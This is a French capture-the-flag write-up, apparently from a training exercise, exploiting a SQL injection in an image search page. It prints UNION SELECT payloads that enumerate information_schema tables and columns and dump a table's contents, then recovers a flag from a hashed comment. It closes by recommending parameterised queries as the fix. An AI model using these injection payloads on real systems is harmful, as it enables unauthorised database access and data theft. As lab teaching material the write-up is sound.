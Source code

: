 # Member SQL injection

Sur /index.php?page=searchimg, on peut rechercher les images par id. En testant on se rend compte que l'input n'est pas protégé et qu'on peut injecter du sql dans le where.
La requête SQL ressemble à ça: `SELECT title, url FROM list_images where id = $id`

### Récupération des tables

On reprend les même requêtes que pour les users et on commence par récupérer toute les tables présentes dans la database:
Input : `1 UNION SELECT 1, table_name FROM information_schema.tables`
Le `1,` ici permet simplement de récupérer autant de columns que dans le SELECT précédant (le SELECT du code d'index.php), c'est à dire 2 colonnes.
Output:
```
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: Nsa
Url : https://www.nsa.org/img.jpg
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: CHARACTER_SETS
Url : 1
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: COLLATIONS
Url : 1
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: COLLATION_CHARACTER_SET_APPLICABILITY
Url : 1

ETC...
```
Nous retrouvons le nom des tables dans la colonne `Title`
On remarque que la table `list_images` est présente, et nous allons nous conentrer dessus

### Récupération des colonnes de la table `list_images`

Il faut maintenant récupérer les colonnes de la table `list_images`:
Input: `1 union select table_name, column_name from information_schema.columns`
(Ici, pas besoin du `1,` car nous récupérons déjà 2 colonnes)
Output (avec un ctrl+f sur "users"):
```
ID: 1 union select table_name, column_name from information_schema.columns 
Title: id
Url : list_images
ID: 1 union select table_name, column_name from information_schema.columns 
Title: url
Url : list_images
ID: 1 union select table_name, column_name from information_schema.columns 
Title: title
Url : list_images
ID: 1 union select table_name, column_name from information_schema.columns 
Title: comment
Url : list_images
```
Pareil ici, on récupère toutes les colonnes de la table `list_images` dans `Title`.

### Récupération de toutes les infos utilisateurs

Il nous suffit maintenant de récupérer toute les données contenues dans la table `list_images`.
Comme nous récupérerons ici beaucoup de colonnes et que nous ne pouvons normalement qu'en récuperer que 2 avec le `UNION`, on doit utiliser un `concat()` pour concaténer la sortie de plusieurs colonnes en une seule. Pour la clareté, on ajouter un `\n`  entre chaque colonne:
Input: `1 union select null, concat(url, 0x0a, title, 0x0a, comment) from list_images`
Output:
```
ID: 1 union select null, concat(url, 0x0a, title, 0x0a, comment) from list_images 
Title: borntosec.ddns.net/images.png
Hack me ?
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url :

ID: 1 union select null, concat(url, 0x0a, title, 0x0a, comment) from list_images 
Title: https://www.h4x0r3.0rg/tr0ll.png
tr00l
Because why not ?
Url : 

ETC...
```

On remarque le commentaire de l'image qui a pour titre `Hack me ?`

Une fois reverse `1928e8083cf461a51303633093573c46`, nous donne `albatroz`
Il nous suffit de le lower puis de le sha256 : `sha256(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

# Comment fix ?

Il faudra ici sanitize les inputs utilisateur au maximum, mais surtout utiliser les "requêtes paramétrées", gérées par le serveur, qui ajouteront les paramètres à l'execution des requêtes. Il sera alors impossible d'ajouter un bout de requêtes SQL, étéant donné que la requête préparée sera pré-compilée, et les paramètres, non.

